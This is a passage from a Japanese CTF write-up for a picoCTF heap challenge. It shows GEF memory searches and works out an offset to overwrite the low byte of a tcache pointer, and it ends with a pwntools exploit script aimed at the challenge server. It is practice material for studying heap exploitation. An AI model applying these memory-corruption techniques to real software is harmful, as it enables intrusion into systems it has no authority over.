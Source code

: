  ```
(snip...)

 gef➤  search-pattern 0x603890
[+] Searching '\x90\x38\x60' in memory
[+] In '[heap]'(0x602000-0x623000), permission=rw-
  0x602088 - 0x602094  →   "\x90\x38\x60[...]" 
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffe070 - 0x7fffffffe07c  →   "\x90\x38\x60[...]" 
  0x7fffffffe470 - 0x7fffffffe47c  →   "\x90\x38\x60[...]" 
gef➤  x/g 0x602088
0x602088:       0x603890
gef➤  
 ```

### 書き換えるアドレス

 `tcache`に格納された最初のチャンクへのポインタが`0x602088`にあることがわかる。だから書き換えたいアドレスは`0x602088`になる。`var_98h`の値は`0x6034a0`と分かっているので、`0x602088`にするためにはアドレス部に`0x602088 - 0x6034a0`つまり`-5144`を入力すれば良い。

### 書き換える値

 一方、値の部分では`0x603890`を`0x603800`にしたい。求めたアドレスの`0x602088`はポインタの最下位バイトにあたるので、null終端文字である`\x00`を入力すれば書き換えが可能になる。

## 解答

```
#!/usr/bin/env python3
from pwn import *

context(os = 'linux', arch = 'amd64')

def main():
    conn = remote('mercury.picoctf.net', 36605)
    conn.recvuntil(b'Address: ')
    conn.sendline(b'-5144')
    conn.recvuntil(b'Value: ')
    conn.sendline(b'\x00')
    print(conn.recvline()[:-1])

if __name__ == '__main__':
    main()
```

## 参考
* [MallocInternals](https://sourceware.org/glibc/wiki/MallocInternals)
* [malloc.c](https://elixir.bootlin.com/glibc/glibc-2.27/source/malloc/malloc.c)
* [shellphish/how2heap](https://github.com/shellphish/how2heap)